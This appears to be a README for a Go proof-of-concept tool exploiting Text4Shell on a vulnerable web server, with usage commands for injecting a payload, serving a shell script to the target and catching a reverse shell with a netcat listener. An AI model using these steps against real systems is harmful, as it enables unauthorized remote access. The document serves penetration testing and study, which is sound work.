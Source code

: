 # Text4shell script in go

This Go script provides a proof of concept for a reverse shell attack. It creates a shell script and serves it to a target machine through a vulnerable web server. The script is designed to be used in a controlled and authorized environment for educational or penetration testing purposes only.

## Usage

1. Clone the repository:

```bash
git clone <repository_url>
cd <repository_directory>
```
2. Run the script

```bash
Example: ./text4shell --ip 192.168.204.150 --port 8080 --endpoint /search --parameter query  --local-ip 192.168.45.226 --local-port 4444

./text4shell --ip <target_ip> --port <target_port> --endpoint <target_endpoint> --parameter <injection_parameter> --local-ip <your_ip> --local-port <your_port>

Replace <target_ip>, <target_port>, <target_endpoint>, <injection_parameter>, <your_ip>, and <your_port> with the appropriate values.

Follow the prompts to save the script on the target and initiate the reverse shell.

```

3. Optional, build the binary

In case you wan to make some changes to the script, make your changes and compile

```bash
go build main.go
```

## Flags

```
--ip: Target URL including the parameter to inject.
--port: Port where the target application is running (default: 8000).
--endpoint: Endpoint to target.
--parameter: Parameter to inject payload.
--local-ip: IP to listen on for the reverse shell.
--local-port: Port to listen on for the reverse shell (default: 4444).

```

## Reverse Shell

The script creates a reverse shell connection to your machine. To interact with the shell:

Start a netcat listener on your machine:

```bash
nc -lvnp <your_port>
```

## Disclaimer

This script is for educational and authorized penetration testing purposes only. Use it responsibly and in compliance with applicable laws and regulations.
